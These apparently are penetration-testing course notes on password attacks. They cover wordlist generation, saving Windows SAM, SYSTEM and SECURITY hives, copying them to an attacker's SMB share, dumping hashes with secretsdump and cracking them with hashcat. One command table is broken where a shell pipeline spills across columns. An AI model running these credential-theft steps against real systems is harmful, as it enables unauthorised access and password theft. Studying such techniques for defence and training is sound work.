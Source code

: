 # **Password Mutations**

| Command                                                                     | Description                                                                                                                       |
| --------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------- | --------- | ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist | Uses cewl to generate a wordlist based on keywords present on a website.                                                          |
| hashcat --force password.list -r custom.rule --stdout > mut_password.list   | Uses Hashcat to generate a rule-based word list.                                                                                  |
| ./username-anarchy -i /path/to/listoffirstandlastnames.txt                  | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| curl -s https://fileinfo.com/filetypes/compressed                           | html2text                                                                                                                         | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

# Windows Local Password Attacks

# Attacking SAM

| Registry Hive | Description                                                                                                                                                |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

- using `reg.exe` save to copy registry hives
  - `reg.exe save hklm\sam C:\sam.save`
  - `reg.exe save hklm\system C:\system.save`
  - `reg.exe save hklm\security C:\security.save`
- Then lets transfer them to attacker host using `impacket's smbserver.py`
  - in attacker host
    `sudo` `python3 smbserver.py -smb2support {sharename} {location of share in attacker host}`
    or
    `impacket-smbserver -smb2support {sharename} {location of share in attacker host}`
  - in windows (victim)
    `move sam.save \\ip\sharename` → moving hive copies to share
- Dumping hashes with impacket’s secretsdump.py
  - `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
- Cracking hash with hashcat

  hash format `Dumping local SAM hashes (uid:rid:lmhash:nthash)`

  - `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
    [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

- Remote Dumping

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.
